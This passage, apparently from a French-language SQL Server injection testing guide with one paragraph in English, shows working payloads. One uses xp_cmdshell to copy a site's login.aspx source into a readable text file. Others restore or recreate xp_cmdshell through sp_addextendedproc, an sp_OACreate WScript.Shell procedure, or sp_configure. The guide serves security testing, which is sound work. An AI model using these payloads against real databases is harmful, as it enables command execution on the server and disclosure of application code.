 `a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Exemple 5: xp_cmdshell personnalisé

Dans tous les ouvrages et articles traitant des bonnes pratiques de
sécurité pour SQL Server, il est recommandé de désactiver xp_cmdshell
dans SQL Server 2000 (dans SQL Server 2005 elle désactivée par défaut).
Cependant, si on a les droits sysadmin (nativement ou en burte-forçant
le mot de passe sysadmin, voir plus bas), on peut contourner cette
limitation.

Sous SQL Server 2000:

  - Si xp_cmdshell a été désactivée avec sp_dropextendedproc, on peut
    injecter simplement le code suivant :



    sp_addextendedproc 'xp_cmdshell','xp_log70.dll'

  - Si le code précédent ne fonctionne pas, cela signifie que
    xp_log70.dll a été déplacé ou effacé. Dans ce cas on doit injecter
    le code suivant :



    CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
      DECLARE @result int, @OLEResult int, @RunResult int
      DECLARE @ShellID int
      EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
      IF @OLEResult <> 0 SELECT @result = @OLEResult
      IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
      EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
      IF @OLEResult <> 0 SELECT @result = @OLEResult
      IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
      EXECUTE @OLEResult = sp_OADestroy @ShellID
      return @result

Ce code, écrit par Antonin Foller (voir les liens en bas de page), crée
une nouvelle fonction xp_cmdshell en utilisant sp_oacreate,
sp_oamethod et sp_oadestroy (à condition qu'elles n'aient pas aussi
été désactivées, bien sûr). Avant de l'utiliser il faut d'abord
effacer la première fonction xp_cmdshell que nous avons créée (même si
elle ne fonctionnait pas), sinon les deux déclarations vont entrer en
collision.

On SQL Server 2005, xp_cmdshell can be enabled by injecting the
following code instead:

    master..sp_configure 'show advanced options',1
    reconfigure
    master..sp_configure 'xp_cmdshell',1
    reconfigure

### Exemple 6: Referer / User-Agent

L'entête REFERER a cette valeur :
